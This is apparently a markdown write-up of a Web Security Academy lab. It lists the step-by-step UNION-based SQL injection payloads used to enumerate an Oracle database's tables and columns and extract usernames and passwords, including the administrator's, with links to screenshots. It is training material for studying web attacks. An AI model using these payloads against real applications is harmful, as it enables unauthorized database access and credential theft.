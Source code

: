 ## Find the number of columns:
+ `'+ORDER+BY+3--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/b9740cdd-4a45-4f7c-b4b3-41035a68af92)  
## Find out the table names:
+ `'UNION+SELECT+table_name,+NULL+FROM+all_tables--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/bcbf8c93-54ed-495c-9528-d218037a39d8)  
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/2c41f083-1f6d-4436-a38f-7ad122d8a719)  
+ `'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name%3d'USERS_MPMRBI'--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/108fe573-b717-4772-abe1-db52f019161d)  
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/14409afe-04b2-4e81-ba67-a6f8551ca4b4)  
+ `'UNION+SELECT+USERNAME_HZWOIU,+PASSWORD_FFZZFS+FROM+USERS_MPMRBI--`
  + **OR**
+ `'UNION+SELECT+USERNAME_HZWOIU,+PASSWORD_FFZZFS+FROM+USERS_MPMRBI+WHERE+USERNAME_HZWOIU%3d'administrator'-- `
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/fe2ad5d7-d6a6-4613-8405-fbcf03a9a39b)
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/fff8c208-d7a9-47e6-ab2a-5646224c7c90)

  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/93614a57-e5ef-47b7-85ce-041289f24633)





